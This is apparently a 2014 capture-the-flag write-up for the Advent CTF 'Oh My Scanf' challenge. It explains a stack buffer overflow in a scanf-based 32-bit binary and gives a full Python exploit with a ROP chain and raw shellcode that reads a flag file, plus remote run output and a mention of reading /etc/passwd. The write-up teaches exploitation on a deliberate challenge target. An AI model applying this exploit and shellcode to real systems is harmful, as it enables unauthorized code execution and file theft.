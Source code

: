 ```yaml
---
layout: post
title: "Advent CTF 2014 Oh My Scanf"
date: 2014-12-24 14:22:07 -0500
author: [barrebas,swappage,superkojiman]
comments: true
categories: [advent]
---
```


### Solved by barrebas, swappage, superkojiman

Another month, another CTF! This Advent CTF runs almost the entire month of December. This challenge seemed easy at first, but turned out to be a bit more tricky!

We're given a vulnerable binary plus the C source:

```c
/* gcc -m32 -fno-stack-protector -zexecstack -o oh_my_scanf oh_my_scanf.c */
#include <stdio.h>

int main(void) {
    char name[16];

    setvbuf(stdout, NULL, _IONBF, 0);
    printf("name: ");
    scanf("%s", name);
    printf("hi, %s\n", name);

    return 0;
}
```

This looks pretty straight-forward, right? `scanf`, an executable stack and a small buffer, oh my! A standard buffer overflow:

```bash
bas@tritonal:~/adventctf$ ulimit -c unlimited
bas@tritonal:~/adventctf$ ./oh_my_scanf 
name: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
hi, AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
Segmentation fault (core dumped)
```

I checked `gdb` and `eip` was overwritten with `HHHH`, so we need 28 bytes to overflow the buffer. Next, because the stack is executable, we should be able to jump to it... but how? ALSR is enabled so we don't know the location of the stack. None of the registers contain a pointer to the shellcode, there aren't any `jmp esp` or `call esp` instructions. Bruteforcing it seemed tedious at best. We looked at writing a ROP chain, but there are very few useable gadgets. 

Thinking long and hard together with Swappage and superkojiman, we came up with several strategies. One of the suggestions by Swappage revolved around abusing `scanf` to build shellcode somewhere. superkojiman noticed that the main code section is `rwx`!

```
gdb-peda$ vmmap
Start      End        Perm  Name
0x08048000 0x08049000 r-xp  /home/bas/adventctf/oh_my_scanf
0x08049000 0x0804a000 r-xp  /home/bas/adventctf/oh_my_scanf
0x0804a000 0x0804b000 rwxp  /home/bas/adventctf/oh_my_scanf
0xf7e19000 0xf7e1a000 rwxp  mapped
...snip...
```

Yes, this has to be it! We can write to a section of memory that is executable *and* at a fixed location. After writing shellcode there, we simply jump to it to have our cake *and* eat it.

So I modified a ROP chain that I was fiddling with:

```python
#!/usr/bin/python
import struct

def p(x):
  return struct.pack("<L", x)

SCANF = 0x80483b0a
POPRET = 0x804835d
SCANF_STRING = 0x80495ce

payload = ""
payload += "A"*28

payload += p(SCANF)         # return-to-got, scanf
payload += p(POPRET)        # next return address
payload += p(SCANF_STRING)  # pointer to "%s", arg1 for scanf
payload += p(0x0804a040)    # pointer to readable/executable
                            # arbitrarily chosen section of code
                            # it doubles as return address
payload += "\n"             # close first scanf call

# this modified shellcode below will be read by the scanf call that results from our ROP chain.
# we need the extra "\na" to flush the buffer, i think. 
payload += "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x54\x59\x90\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xffflag\na"

print payload

```

I used a modified version of [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-73.php). The shellcode wasn't working locally, and I narrowed it down quickly to a bad byte, `0x0c`. This was part of the `lea ecx, [esp]` instruction. I exchanged this for:

```bash
bas@tritonal:~/adventctf$ rasm2 - 
push esp
54
pop ecx
59
nop
90
```

And off we went! I verified the exploit remotely by reading `/etc/passwd` and then I guessed the name of the flag file to be `flag`. Simple, really =)

```bash
bas@tritonal:~/adventctf$ python exploit.py | nc pwnable.katsudon.org 32100
name: hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAA..].E.@..
ADCTF_Sc4NF_IS_PRe77Y_niCE
```

The flag was `ADCTF_Sc4NF_IS_PRe77Y_niCE`. In the end, the executable stack turned out to be a red herring and something more unusual was going on. Cool challenge!

